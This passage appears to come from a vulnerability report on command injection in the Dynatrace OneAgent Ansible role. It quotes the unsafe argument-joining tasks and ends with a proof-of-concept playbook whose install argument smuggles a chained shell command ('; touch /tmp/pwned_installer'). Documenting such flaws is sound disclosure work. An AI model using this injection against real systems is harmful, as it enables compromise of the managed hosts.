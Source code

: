 *   **Preconditions:**
    *   An attacker must be able to influence the `oneagent_install_args` or `oneagent_platform_install_args` Ansible variables, similar to the `oneagentctl` configuration vulnerability.
    *   The target system must be a Unix-based system (Linux or AIX) and be in the process of OneAgent installation using this Ansible role.

*   **Source Code Analysis:**
    1. **File:** `/code/roles/oneagent/tasks/install/install.yml`
        ```yaml
        - name: Combine installation parameters
          ansible.builtin.set_fact:
            _oneagent_all_install_args: "{{ (oneagent_passed_install_args + oneagent_additional_reporting_params) | map('regex_replace', '(.*)', '\"\\1\"') | list }}"
          no_log: true

        - name: Install OneAgent
          ansible.builtin.include_tasks: install/install-{{ oneagent_system_family }}.yml
        ```
        This task combines installation parameters into `_oneagent_all_install_args`. It attempts to quote each argument with double quotes using `map('regex_replace', '(.*)', '\"\\1\"')`, which is insufficient to prevent command injection in all cases, especially when arguments themselves contain quotes or shell commands.

    2. **File:** `/code/roles/oneagent/tasks/install/install-unix.yml`
        ```yaml
        - name: Install OneAgent
          ansible.builtin.command: "{{ oneagent_install_cmd }} {{ _oneagent_all_install_args | join(' ') }}"
          no_log: true
          ignore_errors: true
          register: _oneagent_install_result
          changed_when: true
        ```
        On Unix systems, `ansible.builtin.command` executes the installer script defined by `oneagent_install_cmd` (which is `sh {{ oneagent_installer_path }}`) and appends the arguments from `_oneagent_all_install_args` joined by spaces. This direct shell execution and concatenation of arguments without proper sanitization creates a command injection vulnerability.

    **Visualization:**

    ```
    [User Input (Malicious Install Args)] --> Ansible Playbook --> oneagent_install_args/oneagent_platform_install_args --> _oneagent_all_install_args --> Command Construction (join(' ')) --> `ansible.builtin.command` (sh installer) --> Shell Execution (command injection) --> System Compromise
    ```

*   **Security Test Case:**
    1. **Precondition:** Ansible control node and a target Linux or AIX machine where OneAgent can be installed. Ansible collection `dynatrace.oneagent` is installed on the control node.
    2. **Create a malicious playbook (e.g., `exploit_install_unix.yml`) on the Ansible control node:**
        ```yaml
        ---
        - name: "Exploit Command Injection in OneAgent Installer (Unix)"
          hosts: all
          vars:
            oneagent_environment_url: "https://<your-dynatrace-environment-url>" # Replace with a valid URL if needed for role execution flow.
            oneagent_paas_token: "<your-paas-token>" # Replace with a valid token if needed for role execution flow.
            oneagent_install_args:
              - "INSTALL_PATH=/opt; touch /tmp/pwned_installer" # Malicious command injection via INSTALL_PATH and command chaining
          tasks:
            - name: Import Dynatrace OneAgent role
              ansible.builtin.import_role:
                name: dynatrace.oneagent.oneagent
        ```